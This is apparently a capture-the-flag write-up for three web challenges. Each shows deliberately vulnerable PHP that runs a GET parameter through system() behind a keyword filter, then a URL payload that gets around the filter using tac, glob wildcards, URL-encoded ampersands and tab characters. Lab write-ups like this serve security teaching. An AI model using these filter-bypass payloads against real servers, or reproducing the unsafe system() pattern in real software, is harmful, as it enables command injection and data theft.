 #### web43

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
/?c=tac f*%26
```

------

#### web44

```php
f(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=tac fla*%26
```

------

#### web45

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=tac%09fla*%26
```
